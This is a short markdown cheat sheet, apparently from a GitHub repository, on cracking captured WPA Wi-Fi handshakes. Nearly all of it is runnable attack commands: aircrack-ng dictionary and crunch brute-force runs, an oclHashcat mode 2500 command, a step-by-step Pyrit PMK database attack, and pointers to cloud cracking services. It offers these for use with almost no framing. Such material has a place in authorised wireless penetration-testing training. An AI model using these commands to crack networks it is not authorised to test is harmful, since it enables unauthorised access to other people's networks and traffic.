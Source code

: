 # WPA Cracking Techniques

Now that we have captured the handshake, it's time to crack it

**Dictionary Attack**

```sh
sudo aircrack-ng wpa_file*.cap -w <wordlist>
```

**Brute force Attack**

```sh
crunch 8 8 | sudo aircrack-ng -e <ssid> wpa_file*.cap -w -
```

## Cracking speed

- Exploit the GPU Power

```sh
oclHashcat -m 2500 wpa_file <wordlist>
```
Pyrit can make use of computational power of modern GPUs, like oclHashCat, so you are encouraged to run it on a desktop PC with recent video card installed

```sh
# check the database status
pyrit eval

# import passwords froms our wordlist
pyrit -i <wordlist> import_passwords

# generation the PNKs
pyrit -e <ssid> create_essid

# calculated the PNKs
pyrit batch

# crack the password
pyrit -r <wpa_file> attack_db
```

- Cracking as a service (cloud)
    - `OnlineHashCrank`
    - CloudCracker


